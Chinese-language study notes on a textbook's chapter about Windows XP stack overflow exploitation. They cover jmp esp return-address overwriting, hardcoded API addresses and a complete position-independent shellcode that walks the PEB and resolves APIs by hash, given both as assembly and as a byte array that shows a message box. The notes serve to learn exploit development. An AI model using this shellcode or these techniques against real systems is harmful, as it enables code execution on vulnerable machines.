

# notes for chapter3
## from 3.2
### 问题描述：
我们再之前的学习中使用的覆盖返回地址的方法不适用与普适情况，如当PE程序被重新加载时，栈桢可能发生移位的情况，这个时候我们得buff区的地址就需要重新计算。  

### 解决方案：
一个函数返回时，esp正好指向原理存储返回地址的下一位，我们将shellcode从ret_addr的后一个位置开始填充，并将ret_addr填充为一个进程中的"jmp esp"的指令的地址，这样函数返回后就会跳到esp指向的栈顶的位置开始执行shellcode。

## 3.2.3 experiment
使用程序找出进程中的user32.dll中的jmp esp的指令的地址：
  
这里使用0x77d8625f这个地址构造exp（到底使用哪一个其实需要测试一下，我第一次测试不对，第二次使用该地址就可以了）。  
然后根据实验需求，我们需要在弹窗结束后正常退出，即在最后加上这么一段：
```
mov eax,exit_addr
call eax
```
所以我找到ExitProcess这个函数的虚拟地址：

所以这里的退出进程的虚拟地址为0x7C800000+0x0001CAFA=0x7C81CAFA。

这里需要使用的其他地址：  
1. MessageBoxA：0x77D507EA

这里我使用AsmToe直接转换shellcode为机器码：


填充到password.txt中：

测试成功且正常退出：


## from 3.3
缓冲区组成方式，现阶段已经讲了两种：
1. 将shellcode放到缓冲区，然后覆盖返回地址到缓冲区的起始地址。这种适用于缓冲区较大的场合。
2. 将shellcode放到函数返回地址以后，然后覆盖返回地址为"jmp esp"之类的指令，使得函数返回时跳转到shellcode处执行指令。这种适用于缓冲区较小的场合。

使用的《0day2(已加密)》存在错误，P108中的，介绍缓冲区较小，shellcode快将其填满（即shellcode的最后几个字节快到栈底）时，可能会在出现shellcode被破环情况。这里几个“栈顶”改为“栈底”。

P109中记录一些常用的跳板指令的十六进制机器码，要使用时使用前面提到的searchInDLL程序找user32.dll中的指令对应的地址即可。

## from 3.4 （通用shellcode开发）  
这里其实我们得目的只有一个————定位API的地址。  
这里书里的寻址方式如下（32位windows系统，实例为winxp）：  
1. 找到程序运行的线程环境块TEB。
2. TEB的起始地址偏移0x30的地方指向进程环境块PEB。
3. PEB的地址偏移0x0C的地方存放指向PEB_LDR_DATA结构体的指针，该指针指向一个存放着被进程装载的动态链接库的信息的结构体。
4. PEB_LDR_DATA结构体偏移位置位0x1C的地方指向模块初始化链表的头指针InInitializationOrderModuleList。
5. 4中的链表存放PE被载入时初始化的模块信息，第一个链表节点时ntdll.dll，第二个位kernel32.dll。
6. kernel32.dll的节点偏移0x08是kernel32.dll在内存中载入的基址。
7. kernel32.dll的基址加0xe3C是PE头的地址。
8. PE头偏移0x78存放着指向函数导出表的指针。
9. 安照下述方法寻址：  
    * 导出表偏移0x1C的指针指向存储导出函数偏移地址（RVA）的列表。
    * 导出表偏移0x20指针指向存储导出函数名的列表。
    * 根据函数名找到我们要的函数是导出表中的第几个，然后再地址列表中找到对应RVA。
    * RVA加上动态链接库的基址即是VA，这个也是我们在shellcode中需要的地址。

这里shellcode的构造为了尽可能的短，所以需要给每个API名字用一个hash去代替。  
MessageBoxA：0x1e380a6a  
ExitProcess：0x4fd18963  
LoadLibraryA：0x0c917432  
```
push 0x1e380a6a
push 0x4fd18963 
push 0x0c917432
mov esi,esp
lea edi,[esi-0xC]
```
此时栈桢结构如下：
|address|content|
|-------|-------|
|raw_ret_addr-0x0C||
|raw_ret_addr-0x08|0x0c917432，此时esp指向这里|
|raw_ret_addr-0x04|0x4fd18963|
|raw_ret_addr|0x1e380a6a|
|raw_ret_addr+0x04|shellcode开始四个字节|  
抬高栈桢，保护shellcode：
```
xor ebx,ebx
mov bh, 0x04
sub esp, ebx
```
然后寻址kernel.dll的装载基址：
```
mov ebx,fs:[edx+0x30]
mov ecx,[ebx+0x0C]
mov ecx,[ecx+0x1C]
mov ecx,[ecx]
mov ebp,[ecx+0x08]
```
此时ebp指向了kernel32.dll的装载基址，这里有一个坑：在mov ecx,[ecx+0x1C]后，此时ecx指向了InInitializationOrderModuleList的头指针的地址，之后mov ecx,[ecx]之后，ecx指向看第二个节点，也就是kernel32.dll的装载基址，搜集资料后，这个mov ecx,[ecx]的理由如下：  
>原因是这些结点的结构都用LIST_ENTRY连在一起。而LIST_ENTRY刚好是这些结点结构的第一个成员，同时LIST_ENTRY的第一个成员FLINK的作用是指向下一个LIST_ENTRY结构！

完整代码：
```
	CLD ;clear flag DF <=> mov edx,NULL
	;store hash
	push 0x1e380a6a ;hash of MessageBoxA
	push 0x4fd18963 ;hash of ExitProcess
	push 0x0c917432 ;hash of LoadLibraryA
	mov esi,esp ;esi = addr of first function hash
	lea edi,[esi-0xc] ;edi = addr to start writing function
	;make some stack space
	xor ebx,ebx
	mov bh, 0x04
	sub esp, ebx
	;push a pointer to "user32" onto stack
	mov bx, 0x3233 ;rest of ebx is null
	push ebx
	push 0x72657375
	push esp
	xor edx,edx

	;find base addr of kernel32.dll
	mov ebx, fs:[edx + 0x30] ;ebx = address of PEB
	mov ecx, [ebx + 0x0c] ;ecx = pointer to loader data
	mov ecx, [ecx + 0x1c] ;ecx = first entry in initialization
	;order list
	mov ecx, [ecx] ;ecx = second entry in list
	;(kernel32.dll)
	mov ebp, [ecx + 0x08] ;ebp = base address of kernel32.dll
	find_lib_functions:
	lodsd ;load next hash into al and increment esi
	cmp eax, 0x1e380a6a ;hash of MessageBoxA - trigger
	;LoadLibrary("user32")
	jne find_functions
	xchg eax, ebp ;save current hash
	call [edi - 0x8] ;LoadLibraryA
	xchg eax, ebp ;restore current hash, and update ebp
	;with base address of user32.dll
	find_functions:
		pushad ;preserve registers
		mov eax, [ebp + 0x3c] ;eax = start of PE header
		mov ecx, [ebp + eax + 0x78] ;ecx = relative offset of export table
		add ecx, ebp ;ecx = absolute addr of export table
		mov ebx, [ecx + 0x20] ;ebx = relative offset of names table
		add ebx, ebp ;ebx = absolute addr of names table
		xor edi, edi ;edi will count through the functions
	next_function_loop:
		inc edi ;increment function counter
		mov esi, [ebx + edi * 4] ;esi = relative offset of current
		;function name
		add esi, ebp ;esi = absolute addr of current
		;function name
		cdq ;dl will hold hash (we know eax is
		;small)
	hash_loop:
		movsx eax, byte ptr[esi]
		cmp al,ah
		jz compare_hash
		ror edx,7
		add edx,eax
		inc esi
		jmp hash_loop
	compare_hash:
		cmp edx, [esp + 0x1c] ;compare to the requested hash (saved on
		;stack from pushad)
		jnz next_function_loop
		mov ebx, [ecx + 0x24] ;ebx = relative offset of ordinals
		;table
		add ebx, ebp ;ebx = absolute addr of ordinals
		;table
		mov di, [ebx + 2 * edi] ;di = ordinal number of matched
		;function
		mov ebx, [ecx + 0x1c] ;ebx = relative offset of address
		;table
		add ebx, ebp ;ebx = absolute addr of address table
		add ebp, [ebx + 4 * edi] ;add to ebp (base addr of module) the
		;relative offset of matched function
		xchg eax, ebp ;move func addr into eax
		pop edi ;edi is last onto stack in pushad
		stosd ;write function addr to [edi] and
		;increment edi
		push edi
		popad ;restore registers
		;loop until we reach end of last hash
		cmp eax,0x1e380a6a
		jne find_lib_functions

	function_call:
		xor ebx,ebx
		push ebx ;cut string
		push 0x74736577
		push 0x6C696166 ;push failwest
		mov eax,esp ;load address of failwest
		push ebx
		push eax
		push eax
		push ebx
		call [edi - 0x04] ;call MessageboxA
		push ebx
		call [edi - 0x08] ;call ExitProcess
		nop
		nop
		nop
		nop
```
数组形式：
```
char popup_general[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8";
```
验证：

PS：着实费劲，而且本来用的汇编转机器码的工具有问题=. =，索性用给的测试一下了。
## from 3.5 shellcode 编码技术
PS：貌似今年中科大迎新赛的一个题目的方法就是编码，贼简单，然而我没想到。
其实就是和加壳的效果类似，等程序装载了，shellcode才会被解压变成本来的面目。
## from 3.6 
一些有用的单字节指令：
```
xchg eax,reg 交换eax 和其他寄存器中的值
lodsd 把esi 指向的一个dword 装入eax，并且增加esi
lodsb 把esi 指向的一个byte 装入al，并且增加esi
stosd
stosb
pushad/popad 从栈中存储/恢复所有寄存器的值
cdq 用edx 把eax 扩展成四字。这条指令在eax<0x80000000 时可用作mov edx,NULL
```
这里我们专注于如何挖漏洞以及利用漏洞，这个精简shellcode就留待以后再学习了。
